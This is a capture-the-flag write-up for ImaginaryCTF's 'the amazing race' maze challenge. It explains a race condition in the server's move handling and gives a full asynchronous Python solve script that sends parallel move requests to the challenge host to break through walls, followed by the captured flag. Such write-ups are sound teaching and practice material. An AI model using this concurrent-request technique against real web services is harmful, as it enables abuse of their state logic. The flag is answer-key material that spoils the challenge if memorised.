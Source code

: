 ```yaml
---
ai_date: 2025-04-27 05:18:13
ai_summary: Race condition exploit by sending simultaneous move requests to overwrite wall tiles
ai_tags:
  - race
  - http-hdr
  - rce
created: 2024-07-19T18:28
points: 100
solves: 100
updated: 2025-07-14T09:46
---
```


## race condition

The server fetched "possible moves", does some database manipulation, and updates possible moves at the end. There is a time frame in between where the player is still allowed to move in the direction of the wall.

It's a race condition challenge, by sending two or more requests to move at the same time we have a chance of smashing through the obstacle, effectively overwriting the wall with blank tiles.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1721428085/2024/07/db612e22179b33fa758f1862f4bb4076.png)

My method is simple:
1. Send multiple move requests at once
2. If nothing changed, we are stuck, back away in the opposite direction.
3. Repeat until we reach the top right corner.
4. Rotate the response 90 degrees so we can run the exact same logic above again.

**caveat**, my method only works if the second row's last column is empty, because the vertical descend needs some space to initiate the first smash.

```
@..#...#..##...#.#..###..#..#..#.#.
.....#...#...##...#..#..###..#.#... <- this tile has to be empty
```

## solve script

```python
import asyncio
import aiohttp
import re
mid = "857c86f0-df2d-4f42-ad98-b766b2b1dc1b"
info = f"http://the-amazing-race.chal.imaginaryctf.org/{mid}"
target = f"http://the-amazing-race.chal.imaginaryctf.org/move?id={mid}&move="


async def move(session, direction, rot=0):
    response = await (session.post(url=target+direction) if len(direction) > 0 else session.get(url=info))
    if response.status != 200:
        print("huh", direction)
        return await move(session, direction, rot)
    resp = await response.read()
    resp = re.search("><code>\n([.@#\nF]+)\n</code>", resp.decode()).group(1)
    if rot == 1:
        resp = rotate_anticlockwise(resp)
    return resp

opp = {"right": "left", "left": "right", "up": "down", "down": "up"}
smash_dir = ["right", "down"]


def rotate_anticlockwise(text):
    lines = text.split('\n')
    return '\n'.join(''.join(line[-i-1] for line in lines) for i in range(len(lines[0])))


async def smash_right(session, rot=0):
    resp = await move(session, '', rot)
    lastResp = resp
    smashing_move = smash_dir[rot]
    backing_move = opp.get(smashing_move)
    while "@\n" not in resp and resp[-1] != '@':
        if lastResp == resp and not resp[0] == '@':  # got stuck
            resp = await move(session, backing_move, rot)
            print([x for x in resp.splitlines() if "@" in x], 'backing...', backing_move)
        lastResp = resp
        await asyncio.gather(*(move(session, smashing_move, rot) for _ in range(2)))
        resp = await move(session, '', rot)
        print([x for x in resp.splitlines() if "@" in x], 'smash!', smashing_move)


async def smasher():
    async with aiohttp.ClientSession() as session:
        await smash_right(session)
        print("reached top right most corner!")
        await smash_right(session, 1)
        print("reached flag")
        await move(session, "down")
        print(await (await session.get(url=info)).read())


asyncio.run(smasher())
```

```flag
ictf{turns_out_all_you_need_for_quantum_tunneling_is_to_be_f@st}
```